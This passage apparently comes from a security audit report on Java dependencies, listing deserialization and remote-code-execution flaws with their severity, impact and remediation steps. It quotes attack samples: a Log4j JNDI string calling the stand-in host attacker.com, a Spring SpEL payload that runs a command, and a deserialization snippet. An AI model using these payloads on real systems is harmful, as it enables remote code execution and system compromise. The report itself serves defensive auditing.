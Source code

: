 **Remediation:**
- Disable external entity processing globally
- Configure XML parsers with secure settings
- Validate and sanitize all XML input

---

### Unsafe Deserialization - ~10 vulnerabilities
**Severity:** Critical (CVSS 8.0-9.8)

**Affected Components:**
- XStream (XML object serialization)
- Commons-Collections (Java object deserialization)
- Jackson (JSON deserialization)

**Attack Vector:**
```java
// Malicious serialized object
byte[] maliciousPayload = createExploitPayload();
ObjectInputStream ois = new ObjectInputStream(new ByteArrayInputStream(maliciousPayload));
Object obj = ois.readObject(); // RCE here
```

**Impact:**
- Remote Code Execution
- Complete system compromise
- Arbitrary file access
- Data manipulation

**Remediation:**
- Upgrade to latest versions with security fixes
- Implement deserialization allowlists
- Use safe serialization alternatives (JSON with safe settings)

---

### Remote Code Execution (RCE) - ~25 vulnerabilities
**Severity:** Critical/High (CVSS 8.0-10.0)

**Affected Components:**
- Netty (HTTP/2 frame handling)
- Log4j (JNDI injection)
- Spring (SpEL injection)
- Groovy (sandbox escape)
- Apache Karaf (console access)

**Attack Vector:** Varies by component
- Log4j: `${jndi:ldap://attacker.com/exploit}`
- Spring SpEL: `#{T(java.lang.Runtime).getRuntime().exec('cmd')}`
- Netty: Malicious HTTP/2 frames

**Impact:**
- Complete system compromise
- Arbitrary command execution
- Persistent backdoor installation
- Data breach
